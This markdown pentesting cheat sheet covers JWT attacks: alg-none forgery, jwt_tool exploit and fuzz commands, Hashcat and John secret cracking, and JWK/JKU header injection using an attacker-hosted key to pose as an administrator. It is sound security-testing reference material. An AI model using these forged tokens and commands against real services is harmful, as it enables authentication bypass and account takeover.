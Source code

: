 ```yaml
---
title: JWT (Json Web Token) Pentesting
description: JWT is a proposed internet standard for creating data with optional signature and optional encryption whose payload holds JSON that asserts some number of claims.
tags:
    - Web
refs:
    - https://portswigger.net/web-security/jwt
date: 2023-06-11
draft: false
---
```


## Decode JWT

- There are some online JWT decoder/encoder tools like **[JWT.io](https://jwt.io/)**.
- **[CyberChef](https://gchq.github.io/CyberChef/#recipe=JWT_Decode())** can be used for JWT decode.

<br />

## Manipulate JWT

If the website uses JWT and we can see the token, copy the JWT and paste it in [jwt.io](https://jwt.io/).

1. Replace the **"alg"** value with **"none"** in header. (try the alg header variations such as **"none"**, **"None"**, **"nOnE"**, **"NONE"**.)
2. Replace arbitrary values of the payload e.g. **"username"** with **"admin"**.
3. Empty the signature field.

If the error **"Invalid Signature"** occured, we can manually create Base64 value for each section (remove the **"="** symbol).  
If you want to empty the signature field manually, you can delete the final section.  
For example,

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc4NDYwNjM1fQ.
```

Now copy the JWT.  
Go to the website and replace the original JWT with the new one in HTTP header.  

### Update Expiration

If we don’t get the results we expect, try to increase the **"exp"** value as below.

```bash
"exp": 1679156071 -> 991679156071
```

<br />

## Automation

**[JWT Toolkit](https://github.com/ticarpi/jwt_tool)** is a toolkit for testing, tweaking and cracking JWT.

### Decode

```sh
python jwt_tool.py <Base64_Encoded_JWT>
```

### Scan

```sh
# -t: Target URL
# -rc: Cookies
# -M pb: Playbook Scan Mode
# -cv: Canary Value
python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -M pb -cv "not authorized"
```

### Exploit

```sh
# -X i: Exploit (inject inline)
# -I -pc username -pv admin: Inject Claim ("username": admin)
python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -X i -I -pc username -pv admin
```

### Fuzz

```sh
# -I -hc kid -hv wordlist.txt: Inject Claim ("kid": FUZZ)
python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -I -hc kid -hv wordlist.txt
```

### Manual Pentesting

```sh
# Tamper (Manual Exploit)
python jwt_tool.py <Base64_Encoded_JWT> -T

# Exploit (Automated Exploit)
# -X a: Exploit (alg: none)
python jwt_tool.py <Base64_Encoded_JWT> -X a
```

<br />

## Crack JWT Secret

First of all, you need to put the JWT into the text file.

```sh
echo -n '<Base64_Encoded_JWT>' > jwt.txt
# e.g.
echo -n 'eyJraWQiOiI1OGNkYTU1ZS03NDY4LTRhNmMtYTQ2MS00NmIzZjM1MTMwMWYiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJ0ZXN0Iiwic3ViIjoiYWRtaW4iLCJleHAiOjkxNjg2NDY3NjY1fQ.uK-rKQJzEQ7THoZXcfmHhvnwOE5P46IQIVRWmL4juDM' > jwt.txt
```

Then crack the hash using John the Ripper or Hashcat.

```sh
john --format=HMAC-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt jwt.txt

hashcat -a 0 -m 16500 jwt.txt passwords.txt
hashcat -a 0 -m 16500 jwt.txt passwords.txt -r rules/best64.rule
hashcat -a 3 -m 16500 jwt.txt '?u?l?l?l?l?l?l?l' -i --increment-min=6
```

If you found a secret, you can create a new JWT using the secret on tools like JWT.io.

Also we can use [jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker).

<br />

## JWK (Json Web Key) Header Injection

If the server supports the **`jwk`** in the JWT header, we may be able to add arbitrary **`jwk`** parameters then impersonate another user.  
To perform that, **JWT Editor** extension in Burp Suite is useful.

1. Install JWT Editor in BApp Store in Burp Suite.
2. Go to JWT Editor Keys tab.
3. If the server JWT’s algorithm is RSA such as **RS256**, click **New RSA Key** then click Generate button in the popup.
4. Send request containing JWT to Burp Repeater.
5. Go to **Json Web Token** tab, then modify arbitrary parameter e.g. username.
6. Click **Attack** at the bottom. Select **Embedded JWK**.
7. In the popup, choose our generated key.
8. After that, the **`jwk`** is added in the JWT header.
9. Send request in Repeater.

<br />

## JKU (JWK Set URL) Header Injection

If the server supports the **`jku`** in the JWT header, we may be able to add arbitrary URL in the **`jku`** then impersonate another user.  As in the JWK section above, **JWT Editor** is useful.  
First of all, generate RSA key as the JWK section above, then serve it in our own web server. The body is as below.

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "9c8bc417-ccbf-4b9d-b22b-b90c82f958c6",
            "n": "g7Qf9pqbHfqOXU3kGs4AnvZZvLsxV4kaxs3gLjgD_J4WMOZI7zmRlxuDg74r6gCKeEDdk4JilkRLnZ85xAG4vRMbuODKD-I1uNv6_ZT6RcCh8YS6tQn-bHPOdfcxgoTGpLBLHpj9dLIPwEFhNQiikJkaQxA_RF1eQAQhFO_6AHRBDNkDJfHUhu9ymbsFSpskMIhi3pMISKKSZSF2vYt3gR3Kq4tjUAnfLW_8XUdeJ56RKjBeVV2IgVfmOn-UvHcnLKm2Kki60G1ViEFcQiRzqp9DY8g91RZSMY3xHO0L2LZg34MZ3NInE7XyaRgupotn7yFImYkvd86L0VwICa6b8w"
        }
    ]
}
```

After that, add **`jku`** in the JWT header and set the URL of our server. Then set the **`kid`** of our generated key into the **`kid`**.  
Finally modify arbitrary value e.g. username.  
As a result, our JWT is as the following.

```json
// Header
{
    "kid": "9c8bc417-ccbf-4b9d-b22b-b90c82f958c6",
    "alg": "RS256",
    "jku": "https://attacker.com/key"
}

// Payload
{
    "user": "administrator"
    "exp": 123456789
}
```

Now send request using the JWT above. We may be able to become administrator.
